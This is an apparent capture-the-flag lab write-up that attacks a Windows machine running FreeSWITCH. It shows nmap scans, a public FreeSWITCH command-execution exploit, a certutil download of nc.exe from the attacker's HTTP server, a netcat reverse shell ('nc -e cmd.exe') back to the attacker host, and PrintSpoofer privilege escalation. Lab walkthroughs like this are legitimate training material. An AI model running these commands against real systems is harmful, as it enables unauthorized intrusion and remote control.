 # IP: 10.10.202.85

#### Scanning all ports
`$ nmap -sS --min-rate 5000 --open -p- -Pn -v -n -oG allports 10.10.202.85`
---

#### ExtracPorts
`$ extractPorts allports`

---
````
[*] Extracting information...

	[*] IP Address: 10.10.202.85
	[*] Open ports: 3389,8021

[*] Ports copied to clipboard
````
---
#### ExtracPorts
`$ nmap -sS -sVC 10.10.202.85 -p3389,8021 -Pn -oN targeted`

---
#### Services Version
````
PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
|_ssl-date: 2022-02-26T04:20:07+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-02-26T04:20:07+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2021-11-08T16:47:35
|_Not valid after:  2022-05-10T16:47:35
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
````
___
#### Searchsploit:
------------------------------------------------------------------------------ ---------------------------------
FreeSWITCH - Event Socket Command Execution (Metasploit) | multiple/remote/47698.rb
FreeSWITCH 1.10.1 - Command Execution | windows/remote/47799.txt
___

#### Configure exploit

`$ searchsploit -m windows/remote/47799.txt`

`$ mv 47799.txt freeswitch-exploit.py`

`$ python3 freeswitch-exploit.py 10.10.202.85 whoami`

    Authenticated
	Content-Type: api/response
	Content-Length: 25
	
	win-eom4pk0578n\nekrotic

# Exploiting Service

#### Create an http service on parrot
`$ python3 -m http.server 8081`

	python3 freeswitch-exploit.py 10.10.202.85 "certutil.exe -urlcache -split -f http://10.11.60.52:8081/nc.exe C:\users\Nekrotic\Downloads\nc.exe"

#### Execution reverse shell on NC
`C:\users\Nekrotic\Downloads\nc -e cmd.exe 10.11.60.52 1234`

# Privilege Escalation
`certutil.exe -urlcache -split -f http://10.11.60.52:8080/PrintSpoofer.exe PrintSpoofer.exe`

`$ PrintSpoofer.exe -i -c cmd`

